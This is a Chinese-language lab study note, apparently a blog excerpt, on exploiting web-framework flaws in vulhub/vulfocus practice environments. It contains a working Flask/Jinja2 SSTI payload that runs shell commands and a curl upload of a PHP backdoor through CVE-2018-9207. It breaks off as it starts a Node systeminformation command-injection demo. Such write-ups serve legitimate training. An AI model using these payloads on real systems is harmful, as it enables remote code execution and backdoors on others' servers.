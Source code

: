 ```plain
启动环境：
cd vulhub-master/flask/ssti
sudo docker-compose up -d

访问：192.168.233.128:8000
payload：http://192.168.233.128:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D

这类型的漏洞一般是在白盒上发现的，在很黑上比较难发现。
```

- JavaScript-开发框架安全-Jquery&Node

Jquery

```plain
1、cve_2018_9207  cve_2018_9208 cve_2018_9209
描述: jQuery是一个快速、简洁的JavaScript框架，是继Prototype之后又一个优秀的JavaScript代码库（框架）于2006年1月由John Resig发布。

jQuery Upload File <= 4.0.2 中的任意文件上传
环境：http://vulfocus.io/#/dashboard


框架目录：/jquery-upload-file/，这个目录在实际中是需要抓包分析到的。
访问：http://123.58.236.76:31858/jquery-upload-file/

执行命令就可以进行任意文件上传：curl -F "myfile=@php.php" "http://123.58.236.76:31858/jquery-upload-file/php/upload.php"
php.php是一个后门文件
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135037736-2088428965.png)

```plain
然后访问：http://123.58.236.76:31858/jquery-upload-file/php/uploads/php.php
执行出phpinfo效果。
```

Node

```plain
1、cve_2021_21315
Node.js是一个基于Chrome V8引擎的JavaScript运行环境，用于方便的搭建响应速度快、易于拓展的网络应用。
Node.js-systeminformation是用于获取各种系统信息的Node.js模块,在存在命令注入漏洞的版本中，攻击者可以通过未过滤的参数中注入payload执行系统命令。
Systeminformation <  5.3.1

环境：http://vulfocus.io/#/dashboard
这里演示不是很明显，所以在本地启动演示


环境启动：node index.js
```
